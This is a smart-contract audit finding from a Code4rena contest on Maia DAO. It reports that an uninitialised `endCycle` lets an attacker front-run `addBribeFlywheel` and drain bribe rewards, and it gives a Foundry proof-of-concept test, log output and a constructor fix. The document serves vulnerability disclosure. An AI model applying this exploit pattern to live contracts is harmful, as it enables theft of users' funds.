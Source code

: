 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- upgraded by judge
- H-29

# [Malicious user can front-run Gauges's `addBribeFlywheel` to steal bribe rewards](https://github.com/code-423n4/2023-05-maia-findings/issues/206) 

# Lines of code

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelAcummulatedRewards.sol#L26
https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelAcummulatedRewards.sol#L46-L54


# Vulnerability details

## Impact
When Gauge in initial setup and flywheel is created and added to the gauge via `addBribeFlywheel`. Malicious user can front-run this to steal rewards, this could happened due to uninitialized `endCycle` inside `FlywheelAcummulatedRewards` contract.

## Proof of Concept
Consider this scenario :

1. Gauge is first time created, then admin deposit 100 eth to depot reward.
2. FlyWheel also created, using 'FlywheelBribeRewards` that inherent `FlywheelAcummulatedRewards` implementation.
3. Malicious attacker that `addBribeFlywheel` is about to be called by owner, and front run it by calling `incrementGauge` a huge amount of gauge token to this gauge.
4. `addBribeFlywheel` is executed.
5. Now malicious user trigger `accrueBribes` and claim reward.
6. bribe rewards now stolen, malicious user can immediately decrement his gauge from this contract.

All of this possible, because `endCycle` is not initialized inside `FlywheelAcummulatedRewards` when first created : 

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelAcummulatedRewards.sol#L26-L35

```solidity
abstract contract FlywheelAcummulatedRewards is BaseFlywheelRewards, IFlywheelAcummulatedRewards {
    using SafeCastLib for uint256;

    /*//////////////////////////////////////////////////////////////
                        REWARDS CONTRACT STATE
    //////////////////////////////////////////////////////////////*/

    /// @inheritdoc IFlywheelAcummulatedRewards
    uint256 public immutable override rewardsCycleLength;

    /// @inheritdoc IFlywheelAcummulatedRewards
    uint256 public override endCycle; // NOTE INITIALIZED INSIDE CONSTRUCTOR

    /**
     * @notice Flywheel Instant Rewards constructor.
     *  @param _flywheel flywheel core contract
     *  @param _rewardsCycleLength the length of a rewards cycle in seconds
     */
    constructor(FlywheelCore _flywheel, uint256 _rewardsCycleLength) BaseFlywheelRewards(_flywheel) {
        rewardsCycleLength = _rewardsCycleLength;
    }
    ...

}
```
So right after it is created and attached to gauge, distribution of reward can be called immediately via `accrueBribes` inside gauge, if no previous user put his gauge token into this gauge contract, rewards can easily drained.

Foundry PoC (add this test inside `BaseV2GaugeTest.t.sol`) :

```solidity
    function testAccrueAndClaimBribesAbuse() external {
        address alice = address(0xABCD);
        MockERC20 token = new MockERC20("test token", "TKN", 18);
        FlywheelCore flywheel = createFlywheel(token);
        FlywheelBribeRewards bribeRewards = FlywheelBribeRewards(
            address(flywheel.flywheelRewards())
        );
        gaugeToken.setMaxDelegates(1);
        token.mint(address(depot), 100 ether);

        // ALICE SEE THAT THIS IS NEW GAUGE, about to add new NEW FLYWHEEL REWARDS

        // alice put a lot of his hermes or could also get from flash loan
        hermes.mint(alice, 100e18);
        hevm.startPrank(alice);
        hermes.approve(address(gaugeToken), 100e18);
        gaugeToken.mint(alice, 100e18);
        gaugeToken.delegate(alice);
        gaugeToken.incrementGauge(address(gauge), 100e18);
        console.log("hermes total supply");
        console.log(hermes.totalSupply());
        hevm.stopPrank();
        // NEW BRIBE FLYWHEEL IS ADDED
        hevm.expectEmit(true, true, true, true);
        emit AddedBribeFlywheel(flywheel);
        gauge.addBribeFlywheel(flywheel);
        // ALICE ACCRUE BRIBES
        gauge.accrueBribes(alice);
        console.log("bribe rewards balance before claim : ");
        console.log(token.balanceOf(address(bribeRewards)));

        flywheel.claimRewards(alice);
        console.log("bribe rewards balance after claim : ");
        console.log(token.balanceOf(address(bribeRewards)));

        console.log("alice rewards balance : ");
        console.log(token.balanceOf(alice));
        // after steal reward, alice could just disengage from the gauge, and look for another new gauge with new flywheel
        hevm.startPrank(alice);
        gaugeToken.decrementGauge(address(gauge), 100e18);
        hevm.stopPrank();
    }
```

PoC log output :

```
  bribe rewards balance before claim : 
  100000000000000000000
  bribe rewards balance after claim : 
  0
  alice rewards balance : 
  100000000000000000000
```

## Tools Used

Manual review

## Recommended Mitigation Steps

initialized `endCycle` inside `FlywheelAcummulatedRewards` :

```solidity
    constructor(
        FlywheelCore _flywheel,
        uint256 _rewardsCycleLength
    ) BaseFlywheelRewards(_flywheel) {
        rewardsCycleLength = _rewardsCycleLength;
        endCycle = ((block.timestamp.toUint32() + rewardsCycleLength) /
                rewardsCycleLength) * rewardsCycleLength;        
    }
```


## Assessed type

Other
